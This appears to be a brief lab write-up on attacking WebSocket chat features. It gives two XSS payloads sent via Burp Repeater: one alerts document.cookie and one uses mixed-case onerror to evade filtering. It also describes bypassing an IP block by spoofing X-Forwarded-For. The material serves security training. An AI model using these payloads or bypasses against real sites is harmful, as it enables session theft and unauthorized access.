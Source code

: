 # WebSockets

## Manipulating WebSocket messages to exploit vulnerabilities

The sent via browser automatically get encoded. To trigger an XSS alert message 
we can send this unfiltered payload through burp repeater.

``` json
{ "message": <img src=asdf onerror='alert(document.cookie)'> }
```

## Manipulating the WebSocket handshake to exploit vulnerabilities

To work around the ip block we need to set the `X-Forwarded-For` header:  
![ws settings](images/ws-connection-connection-settings.png)  
![ws set header](images/ws-connection-set-header.png)

For the XSS payload:

``` json
{ "message":"<img src=1 oNeRrOr=alert`123`>" }
```
